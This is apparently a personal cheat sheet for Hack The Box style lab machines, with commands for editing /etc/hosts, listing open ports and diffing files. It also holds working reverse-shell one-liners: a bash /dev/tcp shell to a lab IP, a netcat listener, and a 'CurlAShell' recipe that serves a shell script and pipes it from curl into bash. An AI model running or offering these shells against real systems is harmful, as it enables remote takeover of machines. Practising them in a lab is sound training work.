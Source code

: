 ## Shell
echo to host file
```sh
echo "10.129.152.215 unika.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.108.117 thetoppers.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.251.52 dev.devvortex.htb" | sudo tee -a /etc/hosts
```

```sh
echo "10.129.1.27 ignition.htb" | sudo tee -a /etc/hosts
```

liste aller offenen Ports

```sh
-l: Display only listening sockets.
-t: Display TCP sockets.
-n: Do not try to resolve service names.

ss -tln

```
```sh
sudo netstat -tulnp
```

open reverse shell

### Reverse shell Server
- Kali contains a share folder with shell scrips
```sh
#create a listener for shell session
nc -nvlp 1337

#!/bin/bash
bash -i >& /dev/tcp/10.10.15.71/1337 0>&1

python3 -m http.server 8000

```
### get own ip
```
ip a | grep tun0 

```
### pwd
```sh
pwd #print working directory
```
```sh
python -m http.server 8001
```

### Differences between files
```sh
diff -y file1 file2
-y # side by side
```

## CurlAShell
```bash
#Create shell.sh file
#!/bin/bash
/bin/bash -c 'exec bash -i >& /dev/tcp/10.10.14.190/6565 0>&1'
#start python server
python3 -m http.server 8003
#start netcat listener
nc -lvnp 6565
#curl the shell
curl 10.10.14.190:8003/shell.sh|bash
```


